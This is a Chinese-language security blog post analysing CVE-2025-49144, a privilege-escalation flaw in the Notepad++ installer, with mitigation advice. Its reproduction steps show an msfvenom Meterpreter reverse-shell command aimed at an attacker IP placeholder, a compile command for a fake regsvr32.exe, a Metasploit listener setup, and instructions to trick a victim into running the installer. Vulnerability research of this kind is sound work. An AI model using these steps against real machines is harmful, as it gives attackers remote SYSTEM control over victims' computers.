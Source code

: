 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkxMDc0MTc5Mw==&mid=2247483878&idx=1&sn=161132aec1e0f816d558679852c2866c

#  Notepad++提权漏洞POC及一键部署环境【CVE-2025-49144】  
原创 赵小龙  红岸基地网络安全   2025-07-05 02:00  
  
# Notepad++ 提权漏洞深度分析  
  
CVE-2025-49144 | 从普通用户到SYSTEM权限  
  
CVSS 8.1 高危漏洞  
  
免责声明  
  
本内容仅限于合法的网络安全学习、研究和教学用途。严禁用于未经授权的渗透测试或攻击行为。使用者需遵守相关法律法规，自行承担因不当使用造成的法律责任。  
  
## 漏洞概述  
  
▍关于Notepad++  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2FibdfL4fGpSib6fTcIicVqrLg3FiaqdwQnOtjoeLUHkibHFxiczibU2runk1fGZGxVYnu9oNBsLFHQx5akDHE6DVKrAQ/640?wx_fmt=png&from=appmsg "")  
  
  
Notepad++ 是Windows平台广泛使用的开源文本编辑器，支持多种编程语言语法高亮、代码折叠和插件扩展。  
  
▍漏洞核心机制  
  
在Notepad++**8.8.1及之前版本**  
的安装程序中，存在**不安全的可执行文件搜索路径问题**  
。  
  
攻击者可将恶意文件与安装程序置于同一目录（如"下载"文件夹），当用户运行安装程序时，恶意代码将以**SYSTEM权限**  
执行。  
  
攻击路径  
  
1. 诱骗用户下载安装包和恶意文件到同一目录  
  
2. 用户运行Notepad++安装程序  
  
3. 恶意代码以SYSTEM权限执行  
  
## 受影响版本  
  
Notepad++**< 8.8.2**  
  
1  
  
漏洞引入  
  
历史版本均存在  
  
2  
  
漏洞发现  
  
2025年4月  
  
3  
  
修复发布  
  
2025年5月  
  
## 漏洞复现步骤  
  
▍步骤1：生成恶意载荷  

```
msfvenom -p windows/x64/meterpreter/reverse_tcp \
LHOST=攻击者IP LPORT=监听端口 -f c >shellcode.txt
```

  
此命令生成C格式的Shellcode，用于后续编译恶意程序。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2FibdfL4fGpSib6fTcIicVqrLg3FiaqdwQnOld3AbezmErJH4yVrK2l1dbynfWeobxm1kpDyuU64hZ71coia0pDF3SQ/640?wx_fmt=png&from=appmsg "")  
  
  
▍步骤2：编译恶意程序  

```
x86_64-w64-mingw32-gcc regsvr32_loader.c \
-o regsvr32.exe -mwindows
```

  
编译生成恶意regsvr32.exe程序，该名称利用了安装程序搜索路径漏洞。  
  
▍步骤3：设置监听  

```
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 攻击者IP
set LPORT 监听端口
run
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2FibdfL4fGpSib6fTcIicVqrLg3FiaqdwQnOm9gZL4mknMB6Iz1PQPB9ibgibZDXtytLia4hurj4dAUrdvVX6ngjic6I6Q/640?wx_fmt=png&from=appmsg "")  
  
  
在攻击机器上设置Metasploit监听，等待受害者连接。  
  
▍步骤4：实施攻击  
  
1. 将  
notepad++_installer.exe  
和  
regsvr32.exe  
放入同一目录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2FibdfL4fGpSib6fTcIicVqrLg3FiaqdwQnOGiauC9VhnSdL0ZO0yHI75Mfx3NF1A7icibkcmjZgiaWz2FLxEx6zj6n74g/640?wx_fmt=png&from=appmsg "")  
  
  
2. 诱骗用户运行安装程序  
  
3. 当安装过程卡住时，攻击已完成  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2FibdfL4fGpSib6fTcIicVqrLg3FiaqdwQnOkATiacsUbH5y1f8w1CgELuUy6BCdznxVeMEUhSRlUiaQInP5d8TdQuoA/640?wx_fmt=png&from=appmsg "")  
  
  
[安装程序卡住时的界面截图位置]  
  
此时已获取SYSTEM权限  
  
## 技术原理分析  
  
▍漏洞根源：DLL搜索顺序劫持  
  
Windows应用程序加载DLL时，默认优先搜索当前目录。Notepad++安装程序在执行过程中会调用系统程序（如regsvr32），但未指定完整路径。  
  
▍攻击链分析  
  
1. 安装程序在当前目录搜索regsvr32.exe  
  
2. 攻击者伪造的恶意regsvr32.exe被优先加载  
  
3. 恶意程序以安装程序的权限（SYSTEM）执行  
  
4. 攻击者获得目标系统的完全控制权  
  
▍实际利用挑战  
  
• 需要用户下载两个文件到同一目录  
  
• 依赖社会工程学技巧诱导用户  
  
• 安装过程中会出现卡顿可能引起怀疑  
  
## 防护与修复方案  
  
▍紧急修复措施  
  
1. 立即升级到  
Notepad++ ≥ 8.8.2  
  
2. 检查已安装版本：帮助 → 关于Notepad++  
  
3. 从官网下载最新安装包：  
https://notepad-plus-plus.org  
  
▍企业防护建议  
  
• 使用软件分发系统统一部署更新  
  
• 限制用户下载目录的执行权限  
  
• 部署端点安全解决方案检测异常行为  
  
• 对用户进行安全意识培训  
  
▍开发者最佳实践  
  
• 始终使用绝对路径调用系统程序  
  
• 实现文件完整性检查机制  
  
• 遵循最小权限原则运行安装程序  
  
下载Notepad++ 8.8.2查看CVE详情  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2FibdfL4fGpSib6fTcIicVqrLg3FiaqdwQnOpXEyEyIE1YyAU6SHqau4AmZISeuJgcDdiaT585FQdWnicZXhUC6nxsXg/640?wx_fmt=png&from=appmsg "")  
  
  
安全研究仅供参考 | 请遵守网络安全法律法规  
  
© 2025 网络安全实验室 | Notepad++漏洞分析报告  
  
